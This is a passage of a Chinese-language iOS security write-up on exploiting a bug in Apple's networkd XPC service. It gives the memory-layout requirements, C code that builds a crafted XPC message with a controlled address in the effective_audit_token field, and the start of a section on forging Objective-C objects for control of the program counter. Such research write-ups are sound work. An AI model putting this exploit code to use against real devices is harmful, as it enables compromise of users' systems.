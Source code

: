 ![image](http://img0.ph.126.net/fgjsjehmG2O2w5I1YMonTw==/4926656517467425044.png)

&emsp;&emsp;通过分析传输的数据格式必须满足：
```
+28h qword 0
+30h pointer to controlled data
+48h byte 0
```
&emsp;&emsp;而xpc_uuid的结构如下：

![image](http://img0.ph.126.net/GpzWxYqCehBOezxrndnk0A==/4881901996170465687.png)

&emsp;&emsp;刚好可以满足前面16个字节的需求。

![image](http://img2.ph.126.net/rU9bVXgnjwZkF4TSuRsL-Q==/4847843523988600439.png)

&emsp;&emsp;所以可以设置xpc_uuidd的高8个字节为需要控制的地址，当其被销毁时就会跳转到我们自定义的流程里去。
构造相应的xpc数据：
```
xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0);
 
xpc_dictionary_set_uint64(dict, "type", 6);
xpc_dictionary_set_uint64(dict, "connection_id", 1);
 
xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
xpc_object_t conn_list = xpc_array_create(NULL, 0);
 
xpc_object_t arr_dict = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_string(arr_dict, "hostname", "example.com");
 
xpc_array_append_value(conn_list, arr_dict);
xpc_dictionary_set_value(params, "connection_entry_list", conn_list);
 
uint32_t uuid[] = {0x0, 0x1fec000};
xpc_dictionary_set_uuid(params, "effective_audit_token", (const unsigned char*)uuid);
 
xpc_dictionary_set_uint64(params, "start", 0);
xpc_dictionary_set_uint64(params, "duration", 0);
 
xpc_dictionary_set_value(dict, "parameters", params);
 
xpc_object_t state = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_int64(state, "power_slot", 0);
xpc_dictionary_set_value(dict, "state", state);
```
&emsp;&emsp;除了effective_audit_token以外的其他数据都是正常的。为了攻击这个系统服务，我们把effective_audit_token的值用xpc_dictionary_set_uuid设置为{0x0, 0x1fec000};。0x1fec000这个地址保存的将会是伪造的Objective-C对象。构造完xpc数据后，就可以将数据发送到networkd服务端触发漏洞了。接下来需要解决的是如何构造一个伪造的ObjectC对象，以及如何将伪造的对象保存到这个地址呢？

### 0x03 构造fake Objective-C对象以及Stack Pivot
&emsp;&emsp;通过伪造一个fake Objective-C对象和构造一个假的cache来控制pc指针。这个技术和《iOS冰与火之歌 – Objective-C Pwn and iOS arm32 ROP》中介绍的一样。
